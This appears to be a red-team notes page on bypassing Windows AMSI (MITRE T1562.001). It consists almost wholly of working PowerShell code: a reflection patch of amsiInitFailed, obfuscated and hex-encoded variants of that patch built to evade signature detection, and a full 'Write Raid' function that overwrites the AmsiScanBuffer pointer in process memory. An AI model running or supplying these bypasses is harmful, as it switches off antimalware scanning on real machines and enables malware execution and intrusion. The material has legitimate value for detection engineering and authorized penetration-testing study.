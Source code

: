 ```yaml
---
description: Antimalware Scan Interface (AMSI) Bypass
---
```


# AMSI Bypass

### MITRE ATT\&CK

**T1562.001 - Impair Defenses: Disable or Modify Tools**

**Description:**

Adversaries may modify and/or disable security tools to avoid possible detection of their malware/tools and activities. This may take many forms, such as killing security software processes or services, modifying / deleting Registry keys or configuration files so that tools do not operate properly, or other methods to interfere with security tools scanning or reporting information.

### AMSI Patch

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhn9RdQYNznIixLFSfvlM5q4CmArqalAyo3jKwha5p8CE_0BS791sHB4FMjOe7PUsFfcWYFdgd4084wzlHj5qi7ouMYhOkpa13aoo0ZJNAsSPMnVMUOJTeaBdAX6_j-YhKLfTj39zdJAyDzUovLrSLBko2cuuQiHesdVp-PWBacPIIQVB9MN0P-vJ_ocKY/s1000" alt=""><figcaption><p>AMSI Patch</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f 'Am', 'si')).GetField(('am{0}InitFailed' -f 'si'),'NonPublic,Static').("Set" + "Value")($null,$true)
```
{% endcode %}

### From CRTP Module

{% code overflow="wrap" %}
```csharp
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Manual Modification

{% code overflow="wrap" %}
```csharp
[Ref].Assembly.GetType('Syst'+'em.Manag'+'ement.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

### AMSI Write Raid Bypass

```csharp
function MagicBypass {

# Define named parameters
param(
    $InitialStart = 0x50000,
    $NegativeOffset= 0x50000,
    $MaxOffset = 0x1000000,
    $ReadBytes = 0x50000
)

$APIs = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;

public class APIs {
    [DllImport("kernel32.dll")]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt32 nSize, ref UInt32 lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
   
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

    [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
    public static int Dummy() {
     return 1;
    }
}
"@

Add-Type $APIs

$InitialDate=Get-Date;

$string = 'hello, world'
$string = $string.replace('he','a')
$string = $string.replace('ll','m')
$string = $string.replace('o,','s')
$string = $string.replace(' ','i')
$string = $string.replace('wo','.d')
$string = $string.replace('rld','ll')

$string2 = 'hello, world'
$string2 = $string2.replace('he','A')
$string2 = $string2.replace('ll','m')
$string2 = $string2.replace('o,','s')
$string2 = $string2.replace(' ','i')
$string2 = $string2.replace('wo','Sc')
$string2 = $string2.replace('rld','an')

$string3 = 'hello, world'
$string3 = $string3.replace('hello','Bu')
$string3 = $string3.replace(', ','ff')
$string3 = $string3.replace('world','er')

$Address = [APIS]::GetModuleHandle($string)
[IntPtr] $funcAddr = [APIS]::GetProcAddress($Address, $string2 + $string3)

$Assemblies = [appdomain]::currentdomain.getassemblies()
$Assemblies |
  ForEach-Object {
    if($_.Location -ne $null){
     $split1 = $_.FullName.Split(",")[0]
     If($split1.StartsWith('S') -And $split1.EndsWith('n') -And $split1.Length -eq 28) {
       $Types = $_.GetTypes()
     }
    }
}

$Types |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('A') -And $_.Name.EndsWith('s') -And $_.Name.Length -eq 9) {
       $Methods = $_.GetMethods([System.Reflection.BindingFlags]'Static,NonPublic')
     }
    }
}

$Methods |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('S') -And $_.Name.EndsWith('t') -And $_.Name.Length -eq 11) {
       $MethodFound = $_
     }
    }
}

[IntPtr] $MethodPointer = $MethodFound.MethodHandle.GetFunctionPointer()
[IntPtr] $Handle = [APIs]::GetCurrentProcess()
$dummy = 0
$ApiReturn = $false
   
:initialloop for($j = $InitialStart; $j -lt $MaxOffset; $j += $NegativeOffset){
    [IntPtr] $MethodPointerToSearch = [Int64] $MethodPointer - $j
    $ReadedMemoryArray = [byte[]]::new($ReadBytes)
    $ApiReturn = [APIs]::ReadProcessMemory($Handle, $MethodPointerToSearch, $ReadedMemoryArray, $ReadBytes,[ref]$dummy)
    for ($i = 0; $i -lt $ReadedMemoryArray.Length; $i += 1) {
     $bytes = [byte[]]($ReadedMemoryArray[$i], $ReadedMemoryArray[$i + 1], $ReadedMemoryArray[$i + 2], $ReadedMemoryArray[$i + 3], $ReadedMemoryArray[$i + 4], $ReadedMemoryArray[$i + 5], $ReadedMemoryArray[$i + 6], $ReadedMemoryArray[$i + 7])
     [IntPtr] $PointerToCompare = [bitconverter]::ToInt64($bytes,0)
     if ($PointerToCompare -eq $funcAddr) {
       Write-Host "Found @ $($i)!"
       [IntPtr] $MemoryToPatch = [Int64] $MethodPointerToSearch + $i
       break initialloop
     }
    }
}
[IntPtr] $DummyPointer = [APIs].GetMethod('Dummy').MethodHandle.GetFunctionPointer()
$buf = [IntPtr[]] ($DummyPointer)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $MemoryToPatch, 1)

$FinishDate=Get-Date;
$TimeElapsed = ($FinishDate - $InitialDate).TotalSeconds;
Write-Host "$TimeElapsed seconds"
}
MagicBypass

```

### Resource

* https://github.com/sinfulz/JustEvadeBro
* https://s3cur3th1ssh1t.github.io/Bypass\_AMSI\_by\_manual\_modification/
* https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
* https://www.offsec.com/blog/amsi-write-raid-0day-vulnerability/
* https://github.com/anonymous300502/Nuke-AMSI
